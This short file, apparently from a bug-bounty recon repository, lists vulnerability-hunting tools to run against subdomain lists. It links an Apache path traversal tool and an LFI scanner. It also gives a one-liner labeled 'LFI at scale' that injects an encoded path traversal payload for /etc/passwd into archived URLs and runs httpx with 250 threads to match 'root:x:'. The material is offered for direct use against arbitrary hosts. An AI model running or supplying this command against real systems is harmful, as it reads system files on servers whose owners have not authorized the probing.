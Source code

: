  This file contains the list of tools or scripts which can be directly run on the subdomains list to find the vulnerabilities

> 1. Apache Path Traversal:
```
https://github.com/imhunterand/ApachSAL
```

> 2. Local File Include Check:
```
> https://github.com/hansmach1ne/lfimap
LFI at scale 🔥🔥🔥🔥
cat rootsDomains.txt | waybackurls | qsreplace ".%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd" | httpx -silent -nc -mr "root:x:" -t 250 
```
